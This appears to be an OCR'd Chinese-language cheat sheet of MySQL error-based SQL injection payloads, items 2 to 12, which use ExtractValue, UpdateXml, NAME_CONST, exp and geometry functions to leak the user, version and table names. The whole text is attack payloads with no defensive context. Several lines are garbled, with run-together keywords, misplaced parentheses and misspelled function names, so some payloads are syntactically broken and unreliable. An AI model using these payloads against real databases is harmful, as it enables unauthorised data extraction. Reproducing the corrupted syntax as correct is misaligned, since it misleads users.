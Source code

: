 2、通过ExtractValue报错,注入语句如下:

```sql
and extractvalue(1, concat(0x5c, (select table_name from information_schema.tables limit 1)));
```

3、通过UpdateXml报错,注入语句如下:

```sql
and 1=(updatexml(1,concat(0x3a,(select user())),1))
```

4、通过NAME_CONST报错,注入语句如下:

```sql
and exists(select*from (select*from(selectname_const(@@version,0))a join (select name_const(@@version,0))b)c)
```

5、通过join报错,注入语句如下:

```sql
select * from(select * from mysql.user ajoin mysql.user b)c;
```

6、通过exp报错,注入语句如下:

```sql
and exp(~(select * from (select user () ) a) );
```

7、通过GeometryCollection()报错,注入语句如下:

```sql
and GeometryCollection(()select *from(select user () )a)b );
```

8、通过polygon ()报错,注入语句如下:

```sql
and polygon (()select * from(select user ())a)b );
```

9、通过multipoint ()报错,注入语句如下:

```sql
and multipoint (()select * from(select user() )a)b );
```

10、通过multlinestring ()报错,注入语句如下:

```sql
and multlinestring (()select * from(selectuser () )a)b );
```

11、通过multpolygon ()报错,注入语句如下:

```sql
and multpolygon (()select * from(selectuser () )a)b );
```

12、通过linestring ()报错,注入语句如下:

```sql
and linestring (()select * from(select user() )a)b );
```
